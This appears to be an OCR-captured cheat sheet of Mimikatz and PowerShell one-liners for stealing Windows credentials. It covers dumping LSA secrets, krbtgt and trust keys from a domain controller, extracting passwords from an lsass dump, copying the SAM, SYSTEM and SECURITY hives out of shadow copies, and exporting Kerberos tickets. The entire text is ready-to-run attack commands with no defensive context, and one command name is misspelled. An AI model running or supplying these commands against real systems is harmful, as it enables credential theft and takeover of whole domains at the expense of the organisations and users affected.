 ## dump LSA - secret keys
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::lsa /inject /name:<username>"
```

## dump LSA - krbtgt keys (on a DC)
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::krbtgt"
```

## dump LSA - trust keys (on a DC)
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::trust /patch"
```

## dump LSA - extract credentials from dump
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords /all" "exit"
```


## dump LSA - extract credentials from shadow copy (2)
Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## dump LSA - extract - on hand shadow volume copy
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, tickets

## tickets - list
```
sekurksa::tickets
```

## tickets - extract 
```
sekurlsa::tickets /export
```
